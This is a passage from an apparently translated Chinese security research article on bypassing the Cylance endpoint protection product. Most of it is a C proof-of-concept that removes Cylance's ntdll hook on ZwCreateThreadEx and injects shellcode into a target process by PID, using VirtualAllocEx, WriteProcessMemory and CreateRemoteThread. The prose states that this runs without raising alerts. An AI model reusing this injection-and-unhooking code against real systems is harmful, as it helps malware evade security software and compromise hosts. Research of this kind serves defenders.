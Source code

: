 ```
    VirtualProtect(procAddress, 10, old, &amp;newOld);
`}`

int main(int argc, char **argv)
`{`
    if (argc != 2) `{`
        printf("Usage: %s PIDn", argv[0]);
        return 2;
    `}`
    DWORD processID = atoi(argv[1]);
    HANDLE proc = OpenProcess(PROCESS_ALL_ACCESS, false, processID);
    if (proc == INVALID_HANDLE_VALUE) `{`
        printf("[!] Error: Could not open target process: %dn", processID);
        return 1;
    `}`
    printf("[*] Opened target process %dn", processID);
    printf("[*] Allocating memory in target process with VirtualAllocExn");
    void *alloc = VirtualAllocEx(proc, NULL, sizeof(buf), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    if (alloc == (void*)0) `{`
        printf("[!] Error: Could not allocate memory in target processn");
        return 1;
    `}`
    printf("[*] Allocated %d bytes at memory address %pn", sizeof(buf), alloc);
    printf("[*] Attempting to write into victim process using WriteProcessMemoryn");
    if (WriteProcessMemory(proc, alloc, buf, sizeof(buf), NULL) == 0) `{`
        printf("[!] Error: Could not write to target process memoryn");
        return 1;
    `}`
    printf("[*] WriteProcessMemory successfuln");

    // Remove the NTDLL.DLL hook added by userland DLL
    removeCylanceHook("ntdll.dll", "ZwCreateThreadEx", 0xBB);
    printf("[*] Attempting to spawn shellcode using CreateRemoteThreadn");
    HANDLE createRemote = CreateRemoteThread(proc, NULL, 0, (LPTHREAD_START_ROUTINE)alloc, NULL, 0, NULL);
    printf("[*] Success :Dn");
`}`
```

执行PoC后，可以看到我们的shellcode能正常执行，不会触发任何警告：

[![](https://p0.ssl.qhimg.com/t01a186dc47a7811327.png)](https://p0.ssl.qhimg.com/t01a186dc47a7811327.png)

这种自我监管型的防护策略始终存在一些问题，因为这种机制需要依赖进程来检测自己是否存在可疑行为。

我们在2018年11月份开展这项研究，但之前[@fsx30](https://github.com/fsx30)/bypass-edrs-memory-protection-introduction-to-hooking-2efb21acffd6″&gt;研究内容，其中演示了如何利用该技术转储进程内存。



## 五、应用控制
